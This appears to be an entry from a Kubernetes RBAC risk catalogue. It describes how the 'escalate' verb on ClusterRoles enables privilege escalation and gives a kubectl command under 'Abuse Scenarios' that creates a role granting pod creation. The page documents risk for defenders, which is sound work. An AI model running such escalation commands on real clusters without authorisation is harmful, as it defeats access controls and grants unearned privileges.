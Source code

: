 ```yaml
---
id: 1031
title: "Escalate privileges via ClusterRoles (escalate verb)"
description: "Permits using the 'escalate' verb on ClusterRoles (or Roles). This allows a user to create or update a role with more permissions than they currently possess, up to the permissions defined in the role they are escalating, leading to direct privilege escalation."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                             |
| ------------- | ------------------------------------------------------------------------------------------------- |
| ID            | 1031                                                                                              |
| Name          | Escalate privileges via ClusterRoles (escalate verb)                                              |
| Risk Category | Elevation of Privilege                                                                            |
| Risk Level    | {{< risk Critical >}}                                                                             |
| Role Type     | ClusterRole                                                                                       |
| API Groups    | rbac.authorization.k8s.io                                                                         |
| Resources     | clusterroles                                                                                      |
| Verbs         | escalate                                                                                          |
| Tags          | {{< tag "ClusterAdminAccess" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "RBACManipulation" >}} |

## Description

Permits using the 'escalate' verb on ClusterRoles (or Roles). This allows a user to create or update a role with more permissions than they currently possess, up to the permissions defined in the role they are escalating, leading to direct privilege escalation.

## Abuse Scenarios

1. Create a new ClusterRole with elevated permissions (e.g., 'create pods') that the current user doesn't directly have, leveraging the 'escalate' permission.

```bash {copy=true}
# This command will succeed if the user has 'escalate' on 'clusterroles',
# even if they don't have 'create pods' directly.
kubectl create -f - <<EOF
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: elevated-pod-creator
rules:
- apiGroups: [""]
  resources: ["pods"]
  verbs: ["create"]
EOF
# Example: kubectl create -f - <<EOF ... EOF

```
